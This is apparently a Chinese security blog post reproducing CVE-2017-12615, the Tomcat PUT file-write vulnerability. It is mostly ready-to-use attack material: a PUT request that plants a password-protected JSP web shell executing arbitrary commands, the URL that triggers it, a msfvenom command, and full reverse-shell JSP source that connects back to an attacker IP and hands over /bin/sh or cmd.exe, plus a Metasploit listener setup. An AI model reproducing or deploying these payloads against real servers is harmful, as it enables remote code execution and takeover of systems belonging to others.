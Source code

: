 ```yaml
---
title: Tomcat Put方法任意写文件漏洞(CVE-2017-12615)
date: 2020-07-19 20:40:10
categories: 漏洞复现
tags: Tomcat
---
```


#### 背景

在运行Tomcat的主机上并且启用了HTTP PUT请求方法，**readonly**参数设置为false，攻击者能够将文件写入到服务器。Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特点来绕过了限制。Linux下可以使用“/”,Windows下可以使用“%20”

<!--more-->

#### 复现过程

发送如下payload

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%

    if("123456".equals(request.getParameter("pwd"))){

        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();

        int a = -1;

        byte[] b = new byte[2048];

        out.print("<pre>");

        while((a=in.read(b))!=-1){

            out.println(new String(b));

        }

        out.print("</pre>");

    }

%>
```

![](http://qn.laohuan.xin/%E3%80%812020-07-17_14-22-55.png)

返回201后便在网站目录下生成了1.jsp文件

![](http://qn.laohuan.xin/2020-07-17_14-39-07.png)

访问shell

```
http://IP:8080/1.jsp?pwd=123456&i=whoami
```

![](http://qn.laohuan.xin/2020-07-17_14-36-54.png)

![](http://qn.laohuan.xin/2020-07-17_14-37-18.png)

也可以使用msf的jsp反弹shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=VPSIP LPORT=4444 R > cmd.jsp
```

生成cmd.jsp,将其内容put到服务器

```java
%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream yw;
    OutputStream jz;

    StreamConnector( InputStream yw, OutputStream jz )
    {
      this.yw = yw;
      this.jz = jz;
    }

    public void run()
    {
      BufferedReader bx  = null;
      BufferedWriter dob = null;
      try
      {
        bx  = new BufferedReader( new InputStreamReader( this.yw ) );
        dob = new BufferedWriter( new OutputStreamWriter( this.jz ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = bx.read( buffer, 0, buffer.length ) ) > 0 )
        {
          dob.write( buffer, 0, length );
          dob.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( bx != null )
          bx.close();
        if( dob != null )
          dob.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "反弹IP", 4444 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>
```

msf设置好监听

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 0.0.0.0
set lport 4444
run
```

成功回连

![](http://qn.laohuan.xin/2020-07-17_15-06-30.png)

参考链接

<http://www.freebuf.com/vuls/148283.html>

<http://www.cnblogs.com/swyft/articles/5563732.html>




